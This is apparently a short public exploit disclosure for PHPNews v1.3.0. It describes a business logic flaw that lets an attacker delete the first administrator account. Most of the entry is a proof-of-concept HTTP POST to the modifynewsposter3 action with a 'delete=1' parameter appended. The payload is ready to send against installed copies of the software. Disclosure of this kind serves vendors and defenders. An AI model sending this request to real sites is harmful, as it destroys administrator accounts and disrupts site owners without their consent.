 # Exploit Title: PHPNews v1.3.0 - Business Logic Error(BLE)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/newsphp/files/PHPNews%201._/PHPNews%201.3.0/phpnews_1-3-0.zip/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.3.0
## Exploit Description:
## PHPNews v1.3.0 suffers from BLE - Business Logic Error Vulnerability allowing attackers to delete the first admin account

## ---------------------------------POC-----------------------------
```
POST /index.php?action=modifynewsposter3 HTTP/1.1
...

id=1&newusername=admin&username=admin&password=&password2=&email=admin%40test.com&avatar=&language=en_GB&access=admin&delete=1(ADD THIS)
```
